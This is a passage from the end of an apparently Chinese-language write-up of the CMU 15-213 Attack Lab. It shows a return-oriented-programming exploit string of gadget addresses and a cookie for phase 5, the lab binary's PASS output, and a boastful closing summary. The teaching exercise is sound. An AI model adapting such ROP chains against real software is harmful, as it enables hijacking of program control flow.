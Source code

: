 ```
a2 19 40 00 00 00 00 00 /* gadget address 8 */
fa 18 40 00 00 00 00 00 /* touch3 address */
35 39 62 39 39 37 66 61 00          /* cookie:59b997fa */
```
大功告成!
```shell
$ ./rtarget -qi Phase5-raw
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

# 总结
我看网上不少名校的学生都焦头烂额的实验,我独立完成,真是天才如我.只觉得CTF的什么逆向,pwn,也不过如此.